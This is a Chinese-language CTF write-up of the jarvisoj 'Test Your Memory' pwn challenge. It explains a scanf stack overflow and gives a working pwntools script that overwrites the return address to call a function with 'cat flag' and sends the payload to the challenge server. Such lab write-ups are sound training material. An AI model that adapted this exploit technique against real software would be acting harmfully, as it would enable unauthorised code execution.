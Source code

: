 ```yaml
---
layout:     post
title:      jarvisoj Test Your Memory
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>听说guestbook1很快被人日穿了，出题人表示不服，于是对Guestbook进行了升级，自以为写的很科学~~大家一起鉴定一下。  
>  
>题目来源：CFF2016  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/memory.838286edf4b832fd482d58ff1c217561  
>  
>Address:  
>nc pwn2.jarvisoj.com 9876  
<!-- more -->


### 0x00 IDA分析

简单的栈溢出

![](/assets/img/writeup/pwn/2017-07-23-jarvisoj-memory/0x00.png)

在scanf处溢出

![](/assets/img/writeup/pwn/2017-07-23-jarvisoj-memory/0x01.png)

将返回地址覆盖成win_func的地址

![](/assets/img/writeup/pwn/2017-07-23-jarvisoj-memory/0x02.png)

传入'cat flag'

![](/assets/img/writeup/pwn/2017-07-23-jarvisoj-memory/0x03.png)


### 0x01 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x13 + 0x04)
win_func_addr = 0x080485BD
retn_addr = 0x0804871E
bss_cat_flag = 0x080487E0

Io = remote('pwn2.jarvisoj.com', 9876)
payload = junk + p32(win_func_addr) + p32(retn_addr) + p32(bss_cat_flag)
Io.sendline(payload)
Io.recv()
print Io.recv()
```

得到flag

![](/assets/img/writeup/pwn/2017-07-23-jarvisoj-memory/0x04.png)